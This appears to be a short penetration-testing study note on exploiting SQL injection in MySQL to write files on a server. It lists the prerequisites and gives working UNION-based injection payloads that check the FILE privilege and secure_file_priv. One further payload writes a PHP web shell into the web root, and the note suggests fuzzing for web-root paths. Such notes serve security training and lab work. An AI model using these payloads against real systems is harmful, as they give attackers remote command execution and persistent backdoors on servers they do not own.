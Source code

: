 ___

To be able to write files to the back-end server using a MySQL database, we require three things:

1. User with `FILE` privilege enabled
2. MySQL global `secure_file_priv` variable not enabled
3. Write access to the location we want to write to on the back-end server

# FILE

![[Pasted image 20240928131305.png]]

```sql
test' union select 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

# secure_file_priv

The [secure_file_priv](https://mariadb.com/kb/en/server-system-variables/#secure_file_priv) variable is used to determine where to read/write files from. An empty value lets us read files from the entire file system.

```sql
test' union select 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```


![[Pasted image 20240928131523.png]]

# Web shell

```sql
test' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

Furthermore, we may run a fuzzing scan and try to write files to different possible web roots, using [this wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or [this wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt).


> Tip: Advanced file exports utilize the 'FROM_BASE64("base64_data")' function in order to be able to write long/advanced files, including binary data.